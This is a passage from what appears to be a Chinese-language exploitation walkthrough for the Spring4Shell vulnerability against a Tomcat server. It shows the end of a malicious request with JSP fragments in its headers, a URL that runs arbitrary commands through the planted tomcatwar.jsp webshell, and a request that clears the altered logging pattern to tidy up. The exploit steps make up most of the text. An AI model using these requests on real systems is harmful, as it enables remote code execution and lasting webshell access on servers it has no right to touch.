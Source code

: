 ```plain
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```

![img](assets/1669924059854-b062c392-fca9-4d69-a650-5685023e52ba.png)

1. 然后，您可以使用JSP webshell成功执行任意命令：

```plain
http://192.168.1.10:8080/tomcatwar.jsp?pwd=j&cmd=id
```

![img](assets/1669924100472-19cb5a06-8807-4555-9d54-9bcf3a6d2c21.png)

1. 注意，您应该清除`class.module.classLoader.resources.context.parent.pipeline.first`。模式，因为每个请求日志都将写入该文件。发送以下请求以清除属性：

```plain
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```
